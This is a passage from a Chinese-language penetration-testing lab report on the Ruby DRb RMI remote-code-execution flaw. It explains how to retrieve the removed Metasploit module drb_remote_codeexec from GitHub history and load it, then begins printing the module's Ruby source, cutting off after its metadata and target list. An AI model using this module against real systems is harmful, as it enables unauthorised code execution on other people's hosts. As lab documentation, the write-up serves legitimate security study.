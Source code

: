 ![4.4.2](https://raw.githubusercontent.com/BIIIANG/pic/main/202205081828310.png)

#### 4.1.5 `Ruby DRb RMI`

- 脚本准备：在搜索到该漏洞后，尝试在`metasploit`中搜索相应脚本`drb_remote_codeexec`，却发现网页资料中所提供的脚本不存在，且`metasploit`中没有其他相应漏洞的脚本，因此在`github`找到了脚本的源文件[`drb_remote_codeexec.rb`](https://github.com/rapid7/metasploit-framework/blob/ba17a5d67fc9c2faecde66aaac21b7c976605060/modules/exploits/linux/misc/drb_remote_codeexec.rb)如下，但已经于`2020-11-2`从[`metasploit-framework`](https://github.com/rapid7/metasploit-framework/commits/master//modules/exploits/linux/misc/drb_remote_codeexec.rb)中移除了，获得其历史版本并将其放置在`~/.msf4/modules/exploits`下，并在`metasploit`中`reload_all`，即可搜索并使用该脚本：

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'drb/drb'

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::FileDropper
  prepend Msf::Exploit::Remote::AutoCheck

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Distributed Ruby Remote Code Execution',
        'Description' => %q{
          This module exploits remote code execution vulnerabilities in dRuby.
        },
        'Author' => [ 'joernchen <joernchen[at]phenoelit.de>' ], # (Phenoelit)
        'License' => MSF_LICENSE,
        'References' =>
          [
            [ 'URL', 'http://www.ruby-doc.org/stdlib-1.9.3/libdoc/drb/rdoc/DRb.html' ],
            [ 'URL', 'http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/' ],
            [ 'URL', 'http://bugkraut.de/posts/tainting' ]
          ],
        'Privileged' => false,
        'Payload' =>
          {
            'DisableNops' => true,
            'Space' => 32768
          },
        'Platform' => 'unix',
        'Arch' => ARCH_CMD,
        'Targets' => [
          ['Automatic', { method: 'auto' }],
          ['Trap', { method: 'trap' }],
          ['Eval', { method: 'instance_eval' }],
          ['Syscall', { method: 'syscall' }],
        ],
        'DisclosureDate' => '2011-03-23',
        'DefaultTarget' => 0
      )
    )

    register_options(
      [
        Opt::RHOST,
```